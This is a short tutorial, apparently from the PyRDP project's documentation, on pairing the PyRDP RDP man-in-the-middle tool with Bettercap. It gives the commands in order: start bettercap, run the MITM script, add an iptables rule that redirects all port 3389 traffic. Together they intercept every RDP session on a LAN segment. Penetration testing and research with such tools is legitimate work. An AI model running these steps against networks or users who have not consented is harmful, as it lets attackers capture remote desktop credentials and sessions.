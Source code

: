 # Run PyRDP alongisde Bettercap

Here is a short tutorial on how to combine the MITM RPD tool and Bettercap to
redirect all RDP sessions on a LAN segment.

Start bettercap in normal mode (you can use other options if you like).

    bettercap -I <interface>

Run the PyRDP mitm

    python3 bin/pyrdp-mitm.py <dst-rdp-machine>

Add this iptables rule to redirect all traffic to the mitm

    iptables -t nat -A PREROUTING -p tcp --dport 3389 -j REDIRECT --to-ports 3389

Have fun!

Once finished you can remove the iptables rule with

    iptables -t nat -D PREROUTING -p tcp --dport 3389 -j REDIRECT --to-ports 3389

